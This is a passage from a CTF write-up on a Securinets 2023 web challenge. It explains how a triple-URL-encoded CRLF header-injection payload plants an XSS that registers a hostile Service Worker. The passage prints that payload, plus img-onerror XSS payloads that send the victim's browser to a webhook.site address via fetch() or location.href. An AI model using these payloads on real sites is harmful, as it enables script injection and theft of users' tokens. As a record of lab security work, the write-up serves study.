 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Securinets-CTF-Quals-2023/images/Pasted%20image%2020230807140923.png)

Then go to `/helloworld` to test the XSS payload:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Securinets-CTF-Quals-2023/images/Pasted%20image%2020230807141040.png)

Ah of course... The `fetch()` event listener will URL decode it again...

Let's just ***triple*** URL encode the payload...

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Securinets-CTF-Quals-2023/images/Pasted%20image%2020230807141205.png)

```
/?user=overwriteUserid%25253a%252520foobar%25250d%25250aContent-Length%25253a%25252061%25250d%25250a%25250d%25250a%25257b%252522token%252522%25253a%252522%25253cimg%252520src%25253derrorpls%252520onerror%25253dalert(document.domain)%25253e%252522%25257d
```

However, the weird response time is driven me nuts lmao, and I can't test is the XSS payload working or not. (Update: It's because of the injected `Content-Length` response header...)

## After the CTF ended

So, after some resting, I found that **we can just test the payload by sending the registration XSS payload to the bot.**

**So, our exploitation processes will be:**

1. Send a link that contains our XSS payload in `/` via `user` GET parameter, this will register the Service Worker
2. Send a link to `/helloworld` route

Since [Service Worker will running at the background](https://developer.mozilla.org/en-US/docs/Web/API/Service_Worker_API), **it doesn't care if the page is closed, our evil registered Service Worker will still stay there!**

**It's worth noting that if the XSS payload is using `fetch()`, it won't reach to our intended endpoint:**
```json
{"token":"<img src=errorpls onerror=fetch('https://webhook.site/[...]')>"}
```

If you recalled correctly, the Service Worker is listening the `fetch()` method, and **it'll send the request to host `testnos.e-health.software`'s `/GetToken` route instead of our intended endpoint**!

**To "bypass" the `fetch()` method, we can simply use the `location.href` property, which redirects user:**
```json
{"token":"<img src=errorpls onerror=location.href='//webhook.site/[...]'>"}
```

> Note: Kudos to my teammate "josefk" and the writeup author "xanhacks" for this `location.href` trick!
> 
> ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Securinets-CTF-Quals-2023/images/Pasted%20image%2020230807145124.png)
> 
> ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Securinets-CTF-Quals-2023/images/Pasted%20image%2020230807145138.png)
